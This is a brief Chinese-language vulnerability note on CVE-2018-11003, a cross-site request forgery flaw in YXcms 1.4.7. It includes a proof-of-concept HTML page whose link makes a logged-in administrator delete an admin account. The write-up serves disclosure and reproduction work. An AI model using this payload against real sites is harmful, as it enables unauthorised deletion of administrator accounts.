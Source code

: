 ```yaml
---
title: "（CVE-2018-11003）YXcms 1.4.7跨站请求伪造漏洞"
id: zhfly3301
---
```


# （CVE-2018-11003）YXcms 1.4.7 跨站请求伪造漏洞

## 一、漏洞简介

YXcms 1.4.7版本中的protected/apps/admin/controller/adminController.php文件存在跨站请求伪造漏洞。远程攻击者可借助index.php?r=admin/admin/admindel利用该漏洞删除管理员账户。

## 二、漏洞影响

YXcms 1.4.7

## 三、复现过程

POC:

管理员点击链接

http://192.168.232.133/evil.html

evil.html

```
<html> 
<a href="http://127.0.0.1/yxcms1.4.7/index.php?r=admin/admin/admindel&id=1">test</a>
</html> 
```